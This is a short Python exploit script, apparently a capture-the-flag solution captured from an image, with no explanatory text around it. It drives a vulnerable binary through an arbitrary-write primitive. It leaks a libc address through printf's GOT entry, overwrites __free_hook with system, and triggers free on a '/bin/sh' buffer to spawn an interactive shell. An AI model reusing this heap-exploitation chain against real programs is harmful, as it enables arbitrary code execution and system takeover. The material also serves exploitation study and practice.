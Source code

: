 ```python
for i in range(1, 7):
    send_package(b"/bin/sh\x00")

def arbwrite(where, what):
    set_address(-(0x113048 - 0x113008)//8, p64(base + 0x13008) + p64(base + 0x13018) + p64(where))
    set_address(-(0x113048 - 0x113010)//8,  what)

libc = ELF("./libc.so.6")

# Overwrite heap_addr_ref to point to base+0x13030, which contains 0xfffff....
# Also put the address of printf.got here so that we can use it as a forged package.
arbwrite(base + 0x13028, p64(base + 0x13030) + p64(0xffffffffffffffff) + p64(base + 0x12f78)) # printf.got @ +0x13038
# Write the address of the forged package as the packages of the first 3 elements in the packages array
arbwrite(base + 0x13048, p64(base + 0x13038) * 3)

# Leak out libc
pkgs, _ = list_packages()
leak = u64(pkgs[0][0].ljust(8, b'\0'))
info(f"{ hex(leak) =  }")
libc.address =  leak - libc.symbols.printf
success(f"{hex(libc.address) = }")

arbwrite(libc.symbols.__free_hook, p64(libc.symbols.system)*3)
report_lost(4) # calls free(package[4]->address), so system("/bin/sh") after the __free_hook overwrite


p.interactive()
```